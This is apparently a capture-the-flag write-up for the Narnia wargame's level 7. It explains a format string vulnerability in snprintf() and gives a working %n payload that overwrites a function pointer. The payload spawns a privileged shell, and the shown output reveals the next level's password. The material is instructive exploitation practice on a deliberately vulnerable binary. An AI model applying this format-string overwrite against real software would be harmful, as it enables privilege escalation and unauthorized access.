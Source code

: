 ```c
        fflush(stdout);

        return 0;
}

int hackedfunction(){
        printf("Way to go!!!!");
	    fflush(stdout);
        setreuid(geteuid(),geteuid());
        system("/bin/sh");

        return 0;
}
```

When we execute the program, we land ont the *goodfunction()* but the program want us to execute the *hackedfunction()*. If we take a close look, we can see there is a *format string* vulnerability in the *snprintf()* function.

```bash
$ ./narnia7 ABCD
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd638)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```

So, according to the program, we need to modify **prtf** with the address of *hackedfunction()* (`0x8048724`). To do that we need to write `0x8048724` at `0xffffd638` (*prtf()*). Since we don't really know where our input is placed on the stack, we'll just brutforce the position. Note that the value we'll write will be **134514464** (`134514468 (or 0x8048724) - 4 = 134514464`)

```bash
narnia7@narnia:/narnia$ ./narnia7 $(python -c 'print "\x38\xd6\xff\xff" + "%134514464d%1$n"')
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd638)
I guess you want to come to the hackedfunction...
Segmentation fault
# Nope...

narnia7@narnia:/narnia$ ./narnia7 $(python -c 'print "\x38\xd6\xff\xff" + "%134514464d%2$n"')
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd638)
I guess you want to come to the hackedfunction...
Way to go!!!!$
$ whoami
narnia8
$ cat /etc/narnia_pass/narnia8
mohthuphog
``` 
